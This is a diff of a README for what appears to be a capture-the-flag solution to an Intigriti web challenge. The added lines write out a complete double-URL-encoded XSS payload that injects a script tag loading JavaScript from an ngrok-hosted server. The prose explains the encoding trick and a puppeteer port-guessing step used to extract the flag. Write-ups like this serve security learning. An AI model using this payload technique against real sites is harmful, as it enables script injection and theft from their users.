

Before and after one commit to testing22-0/solution-challenge-10-23, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -89,10 +89,14 @@ This payload targets the endpoint `https://challenge-1023.intigriti.io/api/repor
 
 <img src='images/payload.png' alt='payload'/>
 
+```plaintext
+https://challenge-1023.intigriti.io/api/report?url=/<svg><b id="<%2526%2523x2f%253btitle><script src='https:%2526%2523x2f%253b%2526%2523x2f%253ba9b1-191-45-70-141.ngrok-free.app%2526%2523x2f%253b404.js'><%2526%2523x2f%253bscript>">?startPort=40000
+```
+
 Let's break it down:
 
 - **Path string**: After the endpoint, the payload begins with `<svg><b id="`, introducing a closing `</title>` tag, a following `<script>` tag, a closing `>"` and a query parameter. For the payload to work, it was needed to encode any slashes present in it by HTML encoding `/` -> `&#x2f;` -> URL encoding twice -> `%2526%2523x2f%253b`.
-- **Injected script**: The payload injects a script with an `src` attribute pointing to a remote server (mine was https://a9b1-191-45-70-141.ngrok-free.app) hosting the scripts. This script is our entry point into the puppeteer exploit and the flag can be visualized from that same server.
+- **Injected script**: The payload injects a script with an `src` attribute pointing to a remote server (change it to yours) hosting the scripts. This script is our entry point into the puppeteer exploit and the flag can be visualized from that same server.
 - **Query parameter**: The payload introduces the query parameter `startPort`, which typically varies between 35000 and 45000 (but in theory varies from 1 to 65535), and is used as an initial estimation of the puppeteer port at where the browsers run. The exploit involves an iterative process, maybe requiring multiple attempts to identify the correct port and extract the flag.
 
 ### Streamlining Port Extraction
````
